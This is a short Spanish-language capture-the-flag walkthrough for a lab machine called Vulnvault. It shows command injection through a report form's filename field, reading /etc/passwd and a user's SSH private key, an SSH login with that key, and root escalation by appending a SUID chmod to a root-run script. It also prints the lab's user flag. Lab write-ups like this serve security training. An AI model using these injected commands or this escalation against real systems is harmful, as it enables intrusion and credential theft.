

# Vulnvault

*22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

En la web de generar reportes se advierte que:
*Este sistema también está diseñado para demostrar la importancia de la seguridad en la generación de comandos. La entrada de datos debe ser manejada con cuidado para evitar la inyección de comandos maliciosos*
Intentaremos colar una Ejecución remota de comandos en el campo "Nombre del archivo" aplicando un string como "hola;" y posteriormente un comando ejecutable por bash.
`hola; whoami`
Conseguimos que ejecute el comando:

Intentamos lanzar una terminal remota mediante esta ejecución de comandos sin exito.
vemos el contenido de /etc/passwd y descubrimos un usuario *samara*
*samara:x:1001:1001:samara,,,:/home/samara:/bin/bash*

Con hydra no podemos acceder por fuerza bruta

hacemos un cat a la clave ssh del usuario samara
`; cat /home/samara/.ssh/id_rsa` -> en campo nombre archivo de la web
`ssh samara@172.17.0.2 -i id_rsa_samara` -> En kali
**samara**

## Escalada

El usuario samara tiene un archivo *user.txt*
***030208509edea7480a10b84baca3df3e***
En base64 ->
MDMwMjA4NTA5ZWRlYTc0ODBhMTBiODRiYWNhM2RmM2U=

Probamos en root pero no es la contraseña
Vemos procesos que corren en el sistema y encontramos:
`00:03:32 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done`
Vemos que el proceso */usr/local/bin/echo.sh* se ejecuta en bucle (`while true;`) y que está ejecutandolo *root*

Modificamos el archivo y añadimos código al final para dar permisos de SUID a la shell:
`echo 'chmod u+s /bin/bash' >> /usr/local/bin/echo.sh`
Ejecutamos una shell en modo privilegiado:
`bash -p`
**root**
